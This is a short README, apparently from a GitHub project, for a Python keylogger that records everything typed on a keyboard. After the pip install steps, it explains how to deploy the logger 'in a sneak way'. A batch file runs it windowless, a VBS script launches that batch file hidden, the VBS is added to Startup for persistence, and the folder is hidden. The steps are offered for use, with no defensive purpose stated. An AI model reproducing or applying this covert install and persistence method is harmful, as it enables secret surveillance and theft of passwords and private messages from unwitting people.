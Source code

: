 
# Key Logger

A basic key logger which will captures all the detail typed by physical Keyboard
## Tech Stack

 Python 


## Installation

Open Terminal

```bash
python3 -m pip install --upgrade pip
```
Check the pip version
```bash
pip --version
```
If version is showing you're good to go.  


Necessary pip modules 

```bash
pip install pynput

```
Check whether modules are installed properly or not
```bash
pip show pynput

```
If the details are showing you've installed all the necessary modules
## Setup

To deploy this project in a sneak way follow the instructions

*Create a folder here say ```open_it``` and execute the below instructions in it*

### Create a bat file

Copy the below snippet and make changes as said

```bash
@echo off
pythonw.exe "C:\path\to\your\keylogger.py"

```
Save as ```logger.bat```

### Create a vbs script file

Copy the below snippet and make changes as said

```bash
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "C:\path\to\your\keylogger.bat", 0, False

```
Save as ```logger.vbs```

### Add it to Startup apps 

Press ```WIN + R```

Create a shortcut file for ```logger.vbs```

### Final Step 

Lock and Hide the ```open_it``` folder.
